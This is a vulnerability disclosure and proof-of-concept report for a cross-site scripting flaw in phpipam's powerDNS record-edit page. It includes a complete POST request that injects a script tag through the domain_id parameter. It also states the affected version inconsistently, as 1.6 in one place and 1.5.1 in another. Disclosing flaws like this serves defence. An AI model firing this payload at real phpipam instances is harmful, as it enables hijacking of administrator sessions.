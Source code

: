 # Vulnerability Type

Cross-site Scripting

# Description

phpipam 1.6 is vulnerable to Cross Site Scripting (XSS) via /app/admin/powerDNS/record-edit.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.5.1
 - Tested on: Windows 10

 ## Exploit Description

The XSS vulnerability in the `/app/admin/powerDNS/record-edit.php` arises from improper sanitization of user-supplied input in the `domain_id` parameter. The vulnerability is triggered when the `action` POST parameter is set to `add`.

 ## Steps to Reproduce

 1. Login as an admin user.
 1. Intercept and send the malicious request using a web proxy tool such as Burp Suite, ensure it includes a valid session cookie.
 1. Observe the result: 

![Image](assets/CVE-2024-41357.png)

 ## Proof Of Concept
```
# PoC to trigger XSS vulnerability in phpipam 1.6
# Ensure you are logged in as an admin user to satisfy the admin check condition.
# Send the following POST request to trigger the XSS vulnerability:

POST /app/admin/powerDNS/record-edit.php HTTP/1.1
Host: phpipam
Content-Type: application/x-www-form-urlencoded
Content-Length: <calculated_length>

action=add&domain_id=%22%3E%3Cscript%3Ealert(1)%3C/script%3E

# This will execute the alert(1) script when the response is rendered in the browser.
```

